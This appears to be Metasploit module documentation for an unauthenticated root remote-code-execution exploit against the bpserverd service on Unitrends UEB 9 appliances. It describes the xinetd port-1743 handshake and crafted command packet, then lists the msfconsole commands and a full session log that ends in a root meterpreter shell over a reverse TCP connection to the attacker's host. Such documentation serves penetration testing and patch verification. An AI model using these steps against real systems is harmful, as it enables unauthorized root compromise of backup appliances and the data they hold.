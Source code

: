 ## Vulnerable Application

  Unitrends UEB 9 bpserverd authentication bypass RCE

  This exploit uses roughly the same process to gain root execution
  as does the apache user on the Unitrends appliance. The process is
  something like this:

  1.  Connect to xinetd process (it's usually running on port 1743)
  2.  This process will send something like: `?A,Connect36092`
  3.  Initiate a second connection to the port specified
      in the packet from xinetd (36092 in this example)
  4.  send a specially crafted packet to xinetd, containing the
      command to be executed as root
  5.  Receive command output from the connection to port 36092
  6.  Close both connections


## Verification Steps

  1. ```use exploit/linux/misc/ueb9_bpserverd ```
  2. ```set lhost [IP]```
  3. ```set rhost [IP]```
  4. ```exploit```
  5. A meterpreter session should have been opened successfully

## Scenarios

### UEB 9.1 on CentOS 6.5

```
msf > use exploit/linux/misc/ueb9_bpserverd
msf exploit(ueb9_bpserverd) > set rhost 10.0.0.230
rhost => 10.0.0.230
msf exploit(ueb9_bpserverd) > set lhost 10.0.0.141
lhost => 10.0.0.141
msf exploit(ueb9_bpserverd) > exploit

[*] Started reverse TCP handler on 10.0.0.141:4444
[*] 10.0.0.230:1743 - 10.0.0.230:1743 - pwn'ng ueb 9....
[*] 10.0.0.230:1743 - Connecting to xinetd for bpd port...
[+] 10.0.0.230:1743 - bpd port recieved: 45425
[*] 10.0.0.230:1743 - Connecting to 45425
[+] 10.0.0.230:1743 - Connected!
[*] 10.0.0.230:1743 - Sending command buffer to xinetd
[*] 10.0.0.230:1743 - Command Stager progress -  26.71% done (199/745 bytes)
[*] 10.0.0.230:1743 - Connecting to xinetd for bpd port...
[+] 10.0.0.230:1743 - bpd port recieved: 40889
[*] 10.0.0.230:1743 - Connecting to 40889
[+] 10.0.0.230:1743 - Connected!
[*] 10.0.0.230:1743 - Sending command buffer to xinetd
[*] 10.0.0.230:1743 - Command Stager progress -  53.56% done (399/745 bytes)
[*] 10.0.0.230:1743 - Connecting to xinetd for bpd port...
[+] 10.0.0.230:1743 - bpd port recieved: 40016
[*] 10.0.0.230:1743 - Connecting to 40016
[+] 10.0.0.230:1743 - Connected!
[*] 10.0.0.230:1743 - Sending command buffer to xinetd
[*] 10.0.0.230:1743 - Command Stager progress -  80.27% done (598/745 bytes)
[*] 10.0.0.230:1743 - Connecting to xinetd for bpd port...
[+] 10.0.0.230:1743 - bpd port recieved: 53649
[*] 10.0.0.230:1743 - Connecting to 53649
[+] 10.0.0.230:1743 - Connected!
[*] 10.0.0.230:1743 - Sending command buffer to xinetd
[*] Sending stage (826872 bytes) to 10.0.0.230
[*] Meterpreter session 1 opened (10.0.0.141:4444 -> 10.0.0.230:33715) at 2017-10-06 11:33:56 -0400
[*] 10.0.0.230:1743 - Command Stager progress - 100.00% done (745/745 bytes)

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter >

```

